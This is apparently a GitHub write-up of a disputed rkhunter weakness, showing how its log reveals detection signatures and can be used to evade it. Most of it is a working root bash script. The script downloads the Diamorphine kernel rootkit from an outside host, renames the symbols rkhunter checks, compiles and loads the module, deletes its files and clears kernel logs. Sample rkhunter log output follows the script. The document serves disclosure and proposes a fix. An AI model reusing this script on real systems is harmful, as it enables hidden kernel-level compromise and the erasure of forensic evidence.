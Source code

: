 # Bypass rkhunter

```
** DISPUTED ** A vulnerability was found in rkhunter Rootkit Hunter 1.4.4/1.4.6. It has been classified as problematic. Affected is an unknown function of the file /var/log/rkhunter.log. The manipulation leads to sensitive information in log files. An attack has to be approached locally. The complexity of an attack is rather high. The exploitability is told to be difficult. The exploit has been disclosed to the public and may be used. The real existence of this vulnerability is still doubted at the moment. The identifier of this vulnerability is VDB-237516. NOTE: Permission to access the file is limited to administrative users only by default.
```

##
#
https://gist.github.com/MatheuZSecurity/16ef0219db8f85f49f945a25d5eb42d7
#
##

## How does this "vuln/bypass/misconfig" work?

We managed to take advantage of rkhunter's own logs to do a bypass, it shows the signatures, the strings it looks for, and saves all this in the log file "/var/log/rkhunter.log", so you just have read permissions on the file "/var/log/rkhunter.log" and it will know exactly all the strings, signatures, everything it looks for in directories, files, etc, in order to be able to detect if there is any rootkit/malware in your machine.

And with that we can take advantage of that, to be able to modify our malware/rootkit and successfully bypass rkhunter, because we know exactly what kind of signatures, strings, etc. it looks for.

This is a very common technique for bypassing signature-based security protections.

A possible correction or patch would be not to show all the signatures, directories and strings that it is looking for, but rather just alerting whether or not there is any malware/rootkit on the machine where rkhunter is running and saving this both in a log file and print on screen.

This is affected in rkhunter versions 1.4.6 and 1.4.4.

## PoC Video

[Youtube PoC Video](https://www.youtube.com/watch?v=etHt1TNAgs8)

## Example shell script to bypass

```
#!/bin/bash

if [[ $(id -u) -ne 0 ]]; then
    echo "[ERROR] You must run this script as root" >&2
    exit 1
fi

command -v insmod >/dev/null 2>&1 || { echo >&2 "[ERROR] insmod command not found. Please install it."; exit 1; }
command -v gcc >/dev/null 2>&1 || { echo >&2 "[ERROR] gcc command not found. Please install it."; exit 1; }

dir() {
	mkdir -p  /var/tmp/.cache
}

get_rootkit(){
	git clone https://github.com/m0nad/Diamorphine /var/tmp/.cache
}

modify_rk(){
	mv /var/tmp/.cache/diamorphine.c /var/tmp/.cache/rk.c
	mv /var/tmp/.cache/diamorphine.h /var/tmp/.cache/rk.h
	sed -i 's/diamorphine_secret/demonized/g' /var/tmp/.cache/rk.h
	sed -i 's/diamorphine/demonizedmod/g' /var/tmp/.cache/rk.h
	sed -i 's/63/62/g' /var/tmp/.cache/rk.h
	sed -i 's/diamorphine.h/rk.h/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine_init/rk_init/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine_cleanup/rk_cleanup/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine.o/rk.o/g' /var/tmp/.cache/Makefile
	sed -i 's/module_hide/module_h1dd3/g' /var/tmp/.cache/rk.c
	sed -i 's/module_hidden/module_h1dd3n/g' /var/tmp/.cache/rk.c
	sed -i 's/is_invisible/e_invisible/g' /var/tmp/.cache/rk.c
	sed -i 's/hacked_getdents/hack_getdents/g' /var/tmp/.cache/rk.c
	sed -i 's/hacked_kill/h4ck_kill/g' /var/tmp/.cache/rk.c
}

make_rk(){
	make -C /var/tmp/.cache/
}

load_rk(){
	insmod /var/tmp/.cache/rk.ko
}

clean_files(){
	make clean -C /var/tmp/.cache/
	rm -rf /var/tmp/.cache
}

remove_logs(){
	dmesg -C
	echo "" > /var/log/kern.log
}

clear

dir && get_rootkit && modify_rk && make_rk && load_rk && clean_files && remove_logs /

clear

scs="[*] Success! Rootkit has been implanted. [*]"

for i in $(seq 1 ${#scs}); do
        echo -ne "${scs:i-1:1}"
        sleep 0.05
done

echo -ne "\n"

clear
```

After running the script, use: " kill -62 0 && lsmod|grep rk " To make our module reappear, and even with the module reappeared again, rkhunter will not be able to detect it


Now in the logs rkhunter looks for the following diamorphine rootkit strings:
```
[16:02:59]
[16:02:59] Checking for Diamorphine LKM...
[16:03:00]   Checking for kernel symbol 'diamorphine'        [ Not found ]
[16:03:00]   Checking for kernel symbol 'module_hide'        [ Not found ]
[16:03:00]   Checking for kernel symbol 'module_hidden'      [ Not found ]
[16:03:00]   Checking for kernel symbol 'is_invisible'       [ Not found ]
[16:03:00]   Checking for kernel symbol 'hacked_getdents'    [ Not found ]
[16:03:01]   Checking for kernel symbol 'hacked_kill'        [ Not found ]
[16:03:01] Diamorphine LKM                                   [ Not found ]
[16:03:01]
```


We managed to bypass rkhunter because it shows the signatures, strings, etc. And with that we managed to take advantage of it to be able to modify our code, thus bypassing rkhunter thanks to him because of his logs.


## Summary

Well, in summary, this type of "vulnerability/misconfig/bypass" is only possible because rkhunter saves the logs in "/var/log/rkhunter.log", so far so good, however, it shows the strings, directories, signatures, etc., is what makes it possible to bypass.

Thinking about a real scenario, an attacker can download rkhunter on his own machine, being able to view the logs and know everything that rkhunter looks for to detect a malware/rootkit, and through this, with the attacker knowing where rkhunter can "detect" " the rootkit, the attacker will be able to modify the strings, exact functions of your rootkit/malware to use it in a real environment."
